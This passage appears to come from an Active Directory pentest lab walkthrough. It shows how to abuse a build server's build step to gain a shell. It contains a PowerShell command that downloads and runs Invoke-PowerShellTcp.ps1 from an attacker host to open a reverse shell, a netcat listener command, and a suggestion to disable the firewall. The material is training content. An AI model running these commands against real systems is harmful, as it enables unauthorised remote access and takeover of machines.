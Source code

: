 * Configure -> Add build step (write the following command) -> `powershell iex (iwr -UseBasicParsing http://<attacker_machine>/Invoke-PowershellTcp.ps1);power -Reverse -IPAddress <attacker_machine> -Port 1339`

```powershell
powershell.exe iex (iwr http://172.16.100.67/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress 172.16.100.67 -Port 1339
```

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

and save it. Meanwhile run netcat on our attacker win machine going in listening mode on port 1339:

```bash
C:\AD\Tools\netcat-win32-1.12\nc64.exe -lvp 1339
```

Now our student user appartains to administrators group and we can disabilitate firewall, do it!
